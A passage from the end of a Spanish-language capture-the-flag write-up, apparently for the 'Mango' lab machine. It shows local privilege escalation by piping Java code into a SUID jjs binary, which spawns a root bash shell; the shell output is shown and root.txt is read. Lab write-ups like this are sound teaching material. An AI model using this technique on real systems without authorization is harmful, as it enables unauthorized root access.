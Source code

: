 Este pequeño script de bash funciona como un pipe que recibe instrucciones vía argumentos, es por eso que cuando lo ejecutamos la primera vez, parece un tanto atorado porque no vemos el salto de linea entre instrucción e instrucción.

``` text
admin@mango:/home/admin$ echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/bash -pc \$@|bash\${IFS}-p _ echo bash -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> Java.type('java.lang.Runtime').getRuntime().exec('/bin/bash -pc $@|bash${IFS}-p _ echo bash -p </dev/pts/0 >/dev/pts/0 2>/dev/pts/0').waitFor()
bash-4.4# uid=4000000000(admin) gid=1001(admin) euid=0(root) groups=1001(admin)
bash-4.4# bash-4.4# bash-4.4# reset
```

Para reparar esto, actualizamos las variables ejecutando un `reset` sobre bash que nos ayude a tener una mejor interacción con esta terminal:

``` text
Interrupt set to control-C (^C).
bash-4.4# ls
user.txt
bash-4.4# id
uid=4000000000(admin) gid=1001(admin) euid=0(root) groups=1001(admin)
```

# root.txt

``` text
bash-4.4# cat /root/root.txt
<omitido>
```

---

Gracias por llegar hasta aquí, hasta la próxima!
